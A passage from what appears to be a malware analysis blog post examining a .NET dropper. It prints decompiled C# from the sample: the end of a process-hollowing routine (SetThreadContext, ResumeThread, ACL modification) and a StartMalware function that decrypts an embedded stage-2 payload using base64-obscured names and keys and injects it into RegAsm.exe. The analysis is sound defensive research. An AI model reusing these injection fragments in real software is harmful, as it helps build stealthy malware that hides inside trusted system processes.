 ```c#
		}
		array[44] = PageBaseAddress + num11;
		if (IntPtr.Size == 4)
		{
			if (!SetThreadContext(ProcessInfo.ThreadHandle, array))
			{
				throw new Exception();
			}
		}
		else if (!Wow64SetThreadContext(ProcessInfo.ThreadHandle, array))
		{
			throw new Exception();
		}
		if (ResumeThread(ProcessInfo.ThreadHandle) == -1)
		{
			throw new Exception();
		}
		if (TryModifyAcl)
		{
			ModifyACL(ProcessInfo.ProcessHandle);
		}
	}
	catch
	{
		Process processById = Process.GetProcessById(Convert.ToInt32(ProcessInfo.ProcessId));
		processById.Kill();
		return false;
	}
	return true;
	}
```

All of this preparation leads to the following function call:

```c#

public static void StartMalware()
{
	PreFlightChecks();
	byte[] file_Bytes = GetFileAssembly(Encoding.UTF8.GetString(Convert.FromBase64String("V1dGRzk4dHFlag==")));
	byte[] decrypted_file = DecryptFileCall(file_Bytes, Encoding.UTF8.GetString(Convert.FromBase64String("WFNjOHkwbklKdA==")));
	Win32Calls.InjectSelf("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\RegAsm.exe", decrypted_file, TryInjectACL: false);
}
```


Which executes stage 2 under the context of the RegAsm.exe binary.

Now that I have a decent understanding of how this dropper works, Let's try to decrypt the stage 2 file:
